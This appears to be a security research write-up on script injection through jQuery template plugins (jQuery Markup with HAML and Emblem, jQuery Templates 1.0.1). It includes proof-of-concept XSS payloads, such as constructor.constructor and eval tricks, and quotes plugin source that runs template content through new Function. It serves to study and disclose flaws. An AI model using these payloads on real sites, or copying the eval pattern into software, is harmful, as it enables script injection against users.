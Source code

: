 # Introduction #

jQuery might be one of the most well-known JavaScript libraries out there. According to [BuiltWith](http://trends.builtwith.com/javascript/jQuery), more than half of the Quantcast Top 1 Million websites use it - and 20% of the entire Internet does so too. That's a lot.

While jQuery on its own doesn't support MVC or templating, a bunch of jQuery plugins do. And, to our very surprise, most of them are quite secure! Most of them. let's have a look at those who aren't.

# Quick Facts #

We analysed half a dozen of jQuery Template plugins (Tempura, jQuery Mustache, jsRazor, jQuery Templating and what not). Two found their way here. One because it's fascinating and powerful and should be shown off to make people shiver. One because it's actually quite vulnerable.

## jQuery Markup ##

[jQuery Markup](https://github.com/rse/jquery-markup) is a very interesting project as it allows to define templates inside custom tags - the `<markup>` elements. The content of the `<markup>` elements can be of many different types. jQuery Markup supports a large bunch of templating languages - among them even exotic birds like HAML or Emblem.

The plugin is not particularly unsafe - note that it insists on separating the templates from the actual page. It is a great and easy way to play with exotic template languages though. That's why we listed it here.

### HAML ###

"Haml (HTML Abstraction Markup Language) is a lightweight markup language that is used to describe the XHTML of any web document without the use of traditional inline coding."

From https://en.wikipedia.org/wiki/Haml

```
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/2.0.0/jquery.min.js" type="text/javascript"></script>
<script src="https://rawgithub.com/rse/jquery-markup/master/jquery.markup.js" type="text/javascript"></script>
<script src="https://rawgithub.com/creationix/haml-js/master/lib/haml.js" type="text/javascript"></script>

<script>
    $(document).ready(function () {
        $.markup.load(function () {
            var h = $("body").markup("hello");
        });
    });            
</script>
<link href="test2.html" rel="markup" type="text/x-markup-haml"/>
```

```
<markup id="hello">
!!! XML
!!! strict
%svg{ onload: "alert(1)" }
</markup>
```

### Emblem ###

Emblem even works easily without jQuery markup so we stripped down the PoC a bit. If you ever run into a web application using Emblem and manage to get injected content into a template container... well see for yourself.

```
<meta charset="utf8">
<script type='text/javascript' src='http://code.jquery.com/jquery-1.8.3.js'></script>
<script type='text/javascript' src="https://s3.amazonaws.com/machty/emblem.min.js"></script>
<script type='text/javascript' src="https://s3.amazonaws.com/machty/ember.js"></script>
<script type='text/javascript'>//<![CDATA[ 
$(window).load(function(){
    Ember.Application.create();
});//]]>  
</script>
<body>
<script type="text/x-emblem">
  script alert(1)
</script>
```

Emblem at least make sure, that only code inside `SCRIPT` elements is being parsed as template container - which is a good thing. As we can see below.

## jQuery Templates Plugin 1.0.1 ##

Unlike other, quite securely designed jQuery templating plugins, this one really messed it up. Is the content of a template tag close to be an `eval`? Yes. Do we have any sort of sandbox or at least attempts to limit the scope of the embedded JavaScript? No. Does it accept arbitrary elements as template containers? Yes. Shown below are some examples for successful injections inside a template container - and further below we have the reason for it - straight `eval` via string concatenation crowned by a call to `Function`.

### Injection Attacks ###

```
<script src="http://ajax.aspnetcdn.com/ajax/jQuery/jquery-1.7.1.min.js"></script>
<script src="https://rawgithub.com/KanbanSolutions/jquery-tmpl/master/jquery.tmpl.js"></script>
<script type="text/javascript">
jQuery(function(){
	$("#x").tmpl([{}])
});
</script>
<div id="x">
	${constructor.constructor('alert(1)')()}
	${alert.bind(window)(2)}
	${location='javascript\x3Aalert%283%29'}
	{%= (1,eval)('this').alert(4) %}
</div>
```

### Eval via Function ###

The current jQuery Template Plugin features two ways to parse and execute template code - one for the `${}` syntax and one for the mustache-like syntax. For us this doesn't really matter - what matters is that what ever happens inside the template delimiters is being pumped straight into a Function call - along with a heavily concatenated string containing the "parsed" results.

Only one thing separated the template delimiters from being a perfect eval sink: the `call()` syntax the developers used to mess a bit with the execution scope. As seen above, we don't really care and execute arbitrary JavaScript as we please.

Note that the template element can be any kind of element - as long as it matches the ID given in the JavaScript calling the template method. In our example we used a `DIV` - and not a `SCRIPT` with type `text/x-jquery-tmpl`.

```
    // Generate a reusable function that will serve to render a template against data
    function buildTmplFn(markup) {
        var parse_tag = function(all, slash, type, fnargs, target, parens, args) {
            if(!type) {
                return "');__.push('";
            }

            var tag = $.tmpl.tag[ type ], def, expr, exprAutoFnDetect;
            if(!tag) {
                console.group("Exception");
                console.error(markup);
                console.error('Unknown tag: ', type);
                console.error(all);
                console.groupEnd("Exception");
                return "');__.push('";
            }
            def = tag._default || [];
            if(parens && !regex.last_word.test(target)) {
                target += parens;
                parens = "";
            }
            if(target) {
                target = unescape(target);
                args = args ? ("," + unescape(args) + ")") : (parens ? ")" : "");
                // Support for target being things like a.toLowerCase();
                // In that case don't call with template item as 'this' pointer. Just evaluate...
                expr = parens ? (target.indexOf(".") > -1 ? target + unescape(parens) : ("(" + target + ").call($item" + args)) : target;
                exprAutoFnDetect = parens ? expr : "(typeof(" + target + ")==='function'?(" + target + ").call($item):(" + target + "))";
            } else {
                exprAutoFnDetect = expr = def.$1 || "null";
            }
            fnargs = unescape(fnargs);
            return "');" +
                   tag[ slash ? "close" : "open" ]
                           .split("$notnull_1").join(target ? "typeof(" + target + ")!=='undefined' && (" + target + ")!=null" : "true")
                           .split("$1a").join(exprAutoFnDetect)
                           .split("$1").join(expr)
                           .split("$2").join(fnargs || def.$2 || "") +
                   "__.push('";
        };

        var depreciated_parse = function() {
            if($.tmpl.tag[arguments[2]]) {
                console.group("Depreciated");
                console.info(markup);
                console.info('Markup has old style indicators, use {% %} instead of {{ }}');
                console.info(arguments[0]);
                console.groupEnd("Depreciated");
                return parse_tag.apply(this, arguments);
            } else {
                return "');__.push('{{" + arguments[2] + "}}');__.push('";
            }
        };

        // Use the variable __ to hold a string array while building the compiled template. (See https://github.com/jquery/jquery-tmpl/issues#issue/10).
        // Introduce the data as local variables using with(){}
        var parsed_markup_data = "var $=$,call,__=[],$data=$item.data; with($data){__.push('";

        // Convert the template into pure JavaScript
        var parsed_markup = $.trim(markup);
        parsed_markup = parsed_markup.replace(regex.sq_escape, "\\$1");
        parsed_markup = parsed_markup.replace(regex.nl_strip, " ");
        parsed_markup = parsed_markup.replace(regex.shortcut_replace, "{%= $1%}");
        parsed_markup = parsed_markup.replace(regex.lang_parse,  parse_tag);
        parsed_markup = parsed_markup.replace(regex.old_lang_parse, depreciated_parse);
        parsed_markup_data += parsed_markup;

        parsed_markup_data += "');}return __;";

        return new Function("$", "$item", parsed_markup_data);
    }
```